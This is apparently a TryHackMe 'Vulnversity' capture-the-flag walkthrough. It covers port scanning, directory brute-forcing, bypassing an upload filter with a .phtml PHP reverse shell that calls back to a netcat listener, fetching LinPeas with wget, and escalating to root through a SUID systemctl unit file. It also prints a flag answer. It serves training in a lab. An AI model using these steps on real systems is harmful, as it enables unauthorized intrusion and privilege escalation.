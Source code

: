#  TryHackMe - Vulnversity (Room 009)

<details><summary>Task 2 - Reconnaissance</summary>
<p>

## Task 2.2

### Q: Scan the box, how many ports are open?

A: 6

Walkthrough: Simply scan the machine using the `nmap -A -T4 <IP>` command to reveal open ports

![](/Vulnversity/images/nmap_scan.png)

## Task 2.3

### Q: What version of the Squid Proxy is running on the machine?

A: 3.5.12

Walkthrough: Found in the output of the nmap scan detailed above

## Task 2.4

### Q: How many ports will nmap scan if the flag -p-400 was used?

A: 400

Walkthrough: The `-p-` flag indicates a range of ports to scan. With 400 given at the end, this indicates it will scan port 1-400

## Task 2.5

### Q: Using the nmap flag -n, what will it not resolve?

A: DNS 

Walkthrough: Using the `nmap -h` command, we can see other flags. Scroll down and you will see the `-n` flag

![](/Vulnversity/images/nmap.png)

## Task 2.6

### Q: What is the most likely OS this machine is running

A: Ubuntu

Walkthrough: In SSH, it willt tell us the version of the package installed (Ubuntu). It also indicates Ubuntu through multiple other services such as HTTP as well

![](/Vulnversity/images/ubuntu.png)

## Task 2.7

### Q: What port is the web server running on?

A: 3333

Walkthrough: Scrolling down we can see that port 3333 is running the HTTP service. HTTP is used for websites and web servers

</p>
</details>

<details><summary>Task 3 - Locating Directories using GoBuster</summary>
<p>

## Task 3.1 - no answer needed

Run GoBuster with a wordlist using the `gobuster dir -u http://10.10.76.37:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` command

## Task 3.2

### Q: What is the directory that has an upload form page?

A: /internal/

Walkthrough: Going through the GoBuster results and navigating to each page reveals that the /internal/ directory has an upload form

![](/Vulnversity/images/upload.png)

</p>
</details>

<details><summary>Task 4 - Compromise the Web Server</summary>
<p>
	
## Task 4.1

### Q: Try uploading a few file types to the server, what common extension seems to be blocked?

A: .php

Walkthrough: Since we know this is an Apache server thanks to the Nmap scan, we know that Apache typically works with .php files. There are multiple file extensions for PHP:

* .php
* .phtml
* .php3
* .php4
* .php5
* .phps

We can try uploading simple text documents modified to have these extensions and see what one is possibly blocked

![](/Vulnversity/images/php_tests.png)

Uploading the `.php` extension file presents a message stating that the extension is not allowed

![](/Vulnversity/images/banned.png)

## Task 4.2

To identify which extensions are not blocked, we can fuzz the upload form. To do this, use Burp Suite

## Task 4.3

### Q: What extension is allowed?

A: .phtml

Walkthrough: To begin, make a wordlist with the extensions presented earlier

![](/Vulnversity/images/phpext.png)

Next, upload a file and capture the request via Burp Suite and send it to Intruder. Click on `Payloads` and select the wordlist we created to load into it

Click the `Positions` tab, find the filename and `Add` to the extension

![](/Vulnversity/images/burp.png)

Run the attack and look at the results. The `.phtml` response will have a different length and include a different response than before

![](/Vulnversity/images/success.png)

## Task 4.4

We can use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to us

We listen for incoming connections, upload and have our shell executed which will beacon out back to our listener

A good PHP reverse shell is located [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

To gain remote access to this machine, follow these steps:

1. Edit the PHP reverse shell file and edit the IP to be our VPN IP
2. Rename this file to php-reverse-shell.phtml
3. Listen for incoming connections using netcat via `nc -nvlp 1234`
4. Upload the shell and navigate to http://MACHINE_IP:3333/internal/uploads/php-reverse-shell.phtml and execute the payload
5. Get a connection back via netcat

![](/Vulnversity/images/changeip.png)

![](/Vulnversity/images/shell.png)

## Task 4.5

### Q: What is the name of the user who manages the webserver?

A: bill

Walkthrough: Navigate to the /home directory and have a look at the users. There is only one user

![](/Vulnversity/images/bill.png)

## Task 4.6

### Q: What is the user flag?

A: 8bd7992fbe8a6ad22a63361004cfcedb

Walkthrough: The `user.txt` flag in most CTFs is located on the Desktop of the user. Simply navigate to the Desktop and cat the .txt file. In this case, it is located inside `/home/bill/user.txt`

![](/Vulnversity/images/flag.png)

</p>
</details>

<details><summary>Task 5 - Privilege Escalation</summary>
<p>

## Task 5.1

### Q: On the system, search for all SUID files. What file stands out?

A: /bin/systemctl

Walkthrough. There are two ways to do this. The first way is by manually searching for all files with SUID permissions using the find command `find / -user root -perm -4000 -exec ls -ldb {} \;`

![](/Vulnversity/images/systemctl.png)

Another way is we can run LinPeas by first running a local Python server hosting the .sh script and thenusing `wget` on the victim machine to download it to the `/tmp` directory

![](/Vulnversity/images/linpeas.png)

Running LinPeas highlights the /bin/systemctl command under SUID binaries section indicating it is vulnerable

![](/Vulnversity/images/linpeas_results.png)

Now that we know /bin/systemctl is an issue, we can use [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) to get more information

There are two ways to exploit this binary - SUID and sudo

![](/Vulnversity/images/suid.png)

This way creates a service that systemctl is going to start for us and that service will be running with elevated privileges

Systemctl is a controlling interface and inspection tool for the widely-adopted init system and service manager systemd. Systemd in turn is an init system and system manager that is widely becoming the new standard for Linux machines

Systemd initializes user space components that run after the Linux kernel has booted, as well as continuously maintaining those components throughout a system's lifecycle. These tasks are known as units, and each unit has a corresponding unit file

We can create our own unit file and let systemd start it. Normally systemctl will look for unit files in the default folder, which is /etc/system/systemd but we do not have permission to write to that folder

We can create a unit file and let systemctl start it via an environment variable

First, we create a variable which holds a unique file

`eop=$(mktemp).service`

Then, we create a unit file and write it into the variable

```bash
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $eop
```

Inside the unit file, we entered a command which will let shell execute the command `cat` and redirect the output of cat to a file called `output` in the tmp folder. Finally, we use the /bin/systemctl program to enable the unit file

```bash
/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```

![](/Vulnversity/images/output.png)

Looking at the output file, we see the root.txt flag

![](/Vulnversity/images/rootflag.png)